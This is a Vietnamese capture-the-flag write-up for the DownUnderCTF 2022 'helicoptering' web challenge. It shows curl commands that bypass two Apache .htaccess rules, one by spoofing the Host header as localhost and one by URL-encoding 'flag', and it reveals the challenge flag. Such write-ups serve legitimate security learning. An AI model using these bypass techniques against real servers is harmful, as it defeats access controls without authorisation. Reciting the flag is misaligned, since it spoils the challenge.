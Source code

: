 # WRITE-UP  DownUnderCTF 2022 -  helicoptering 

Sau khi sữ dụng lệnh curl -I http://yourdomain.com ta nhận được:

HTTP/1.1 403 Forbidden
Date: Tue, 15 Apr 2025 08:44:43 GMT
Server: Apache/2.4.54 (Debian)
Content-Type: text/html; charset=iso-8859-1

Bạn thấy một mã trạng thái 403 hoặc một số thông báo khác cho thấy bị từ chối quyền truy cập, có thể đó là vì quy tắc .htaccess chặn truy cập.

# Ở file one/.htaccess ta thấy rằng nếu Host không phải là localhost, yêu cầu sẽ bị từ chối ngay lập tức với mã trạng thái 403 Forbidden (thông qua dòng RewriteRule ".*" "-" [F])
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]

Vì vậy thiết lập header Host trong yêu cầu HTTP thành localhost.

curl -i -s -k -X $'GET' -H $'Host: localhost' $'http://192.168.93.128:30026/one/flag.txt'

HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 09:02:00 GMT
Server: Apache/2.4.54 (Debian)
Last-Modified: Tue, 15 Apr 2025 06:34:43 GMT
ETag: "10-632cb5d2eec3c"
Accept-Ranges: bytes
Content-Length: 16
Content-Type: text/plain

DUCTF{thats_it_



# Ở file two/.htaccess ta thấy kiểm tra biến server THE_REQUEST, chứa toàn bộ dòng yêu cầu HTTP (ví dụ: GET /index.html HTTP/1.1). 
Điều quan trọng là quy tắc tìm kiếm sự xuất hiện của chuỗi flag trong dòng yêu cầu. Nếu tìm thấy flag, yêu cầu sẽ bị chặn (qua RewriteRule).
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]

Vì vậy chúng ta cần đảm bảo rằng chuỗi flag không xuất hiện trong dòng yêu cầu. 
Nên mã hóa URL chuỗi flag, vì quy tắc .htaccess chỉ kiểm tra chuỗi flag chưa được mã hóa.
Chuỗi mã hóa URL của từ flag là %66lag

curl http://192.168.93.128:30026/two/%66lag.txt
next_time_im_using_nginx}
